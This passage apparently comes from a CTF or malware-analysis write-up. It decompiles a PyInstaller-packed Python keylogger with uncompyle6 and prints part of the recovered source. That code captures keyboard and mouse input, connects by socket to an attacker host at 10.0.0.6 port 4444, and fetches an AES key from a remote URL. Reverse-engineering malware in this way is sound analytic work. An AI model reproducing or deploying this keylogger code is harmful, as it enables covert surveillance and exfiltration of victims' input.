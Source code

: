 You can now use a python decompiler on the pyc files within the extracted directory
```

```
┌──(kali㉿kali)-[~/pyinstxtractor/keylogger_extracted]
└─$ uncompyle6 keylogger.pyc 
# uncompyle6 version 3.9.2
# Python bytecode version base 3.8.0 (3413)
# Decompiled from: Python 2.7.18 (default, Aug  1 2022, 06:23:55) 
# [GCC 12.1.0]
# Embedded file name: keylogger.py
import logging, os, platform, socket, threading, wave, pyscreenshot
from pynput import keyboard
from pynput import mouse
import requests
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
import struct, glob, io
SEND_REPORT_EVERY = 30
host = "10.0.0.6"
port = 4444

class KeyLogger:

    def __init__(self, time_interval):
        self.interval = time_interval
        self.log_keyboard = "KeyLogger Started..."
        self.log_mouse = "Mouse Started..."
        self.key = self.getKey()
        self.s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.s.connect((host, port))

    def getKey(self):
        return requests.get("https://raw.githubusercontent.com/HuyThang25/KCSC-TVV2024/main/key").text.encode("utf-8")

    def appendlog_mouse(self, string):
        self.log_mouse = self.log_mouse + string + "\n"

    def appendlog_keyboard(self, string):
        self.log_keyboard = self.log_keyboard + string

    def on_move(self, x, y):
        self.appendlog_mouse("Mouse moved to {} {}".format(x, y))

    def on_click(self, x, y, button, pressed):
        self.appendlog_mouse("Mouse {} {} to {} {} ".format("Pressed" if pressed else "Released", str(button), x, y))
